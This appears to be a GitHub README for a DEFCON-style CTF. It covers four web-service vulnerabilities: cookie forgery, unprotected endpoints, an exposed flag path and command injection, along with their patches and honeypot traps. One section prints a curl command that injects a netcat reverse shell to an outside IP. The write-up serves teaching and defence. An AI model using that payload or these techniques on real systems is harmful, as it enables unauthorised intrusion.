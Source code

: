 # Attack-Patch-Prevail-48h-Defcon-Style-CTF-Showdown

### Author

- **Panagiotis Vardalas**
### *From Pawn to Immunity*

A full-cycle exploitation and hardening of a vulnerable web service during a 48-hour DEFCON-style Capture The Flag. This repository documents the four vulnerabilities I discovered and exploited live against other teams, alongside the patches and countermeasures I deployed to transform the same service into a fortified, trap-laden stronghold.

---

## 🛠️ Overview

In a high-stakes, time-constrained CTF environment, I identified and weaponized four critical vulnerabilities in a target web service. Each exploit was then fully patched and reinforced to not only block future attacks but actively disrupt and mislead adversaries attempting to exploit the same vectors. The result: a hardened service that became more dangerous to attack than to ignore.

---

## 🔍 Discovered Vulnerabilities & Patch Strategies

### 1. Privilege Escalation via Cookie Forgery
- **Exploit:**  
  Manually setting a cookie with `admin=1` granted full administrative access without validation.

- **Patch:**  
  Implemented cookie signing using HMAC-based validation. Every cookie is verified server-side using a secret key to prevent tampering.

---

### 2. Restricted Action Access via Direct Endpoint Call
- **Exploit:**  
  Direct requests to `/action.php` allowed any user to add restricted items (including the flag) to their cart.

- **Patch:**  
  Enforced backend role-based access control. Admin checks were implemented at the logic level, not just in the frontend or routing layer.

---

### 3. Direct Flag Exposure via Static Path
- **Exploit:**  
  Accessing `/key` revealed the flag directly due to exposed static file routing.

- **Patch:**  
  The application was restructured around a centralized router (`index.php`) that handles all access through controlled dispatch, preventing direct file exposure.

---

### 4. Remote Code Execution via Unsafe Command Execution
- **Exploit:**  
  A function used input to build shell commands like:  
  ```bash
  curl -X POST http://$ip:8005/actions.php -d "system=nc+10.219.254.57+4444+-e+/bin/bash"
  ```
  This enabled arbitrary command execution and allowed backdoors for submitting flags even if the service appeared down.

- **Patch:**  
  Introduced a strict whitelist of allowable commands and validated inputs thoroughly. The handler was refactored to eliminate dynamic shell calls where not explicitly needed.

---

## 🧠 Advanced Defensive Engineering & Active Traps

Beyond patching, I actively weaponized the service to turn attack attempts into disadvantages for my opponents.

---

## 🕳️ Honeypot Traps

- **Trap 1 – `/key`:**  
  Instead of returning a 403/404, this endpoint returned a **39KB payload** of pseudo-flag data after a **deliberate delay**, poisoning automated tools and overloading network analysis with useless but believable data.

- **Trap 2 – Patched `/action.php`:**  
  Unauthorized calls triggered **high-latency responses** and **large data dumps** designed to resemble valid flags, stalling and confusing enemy scripts.

---

## 📉 Impact on Opponents

- Enemy **PCAP files** grew to **multiple gigabytes**, bloated with meaningless data.
- Several teams **submitted fake flags** generated by the trap payloads.
- **Automated daemons crashed** or stalled due to high latency and bandwidth/resource exhaustion.
- Attacking my service **became a liability**, shifting the risk/cost balance in my favor.

---

## ⚔️ Conclusion

This repository showcases the offensive and defensive techniques used during a **48-hour DEFCON-style CTF** to fully compromise, secure, and militarize a web service.  
In a real-time, adversarial environment, success comes not only from breaching systems — but from **securing and turning them into traps** that actively punish attackers.
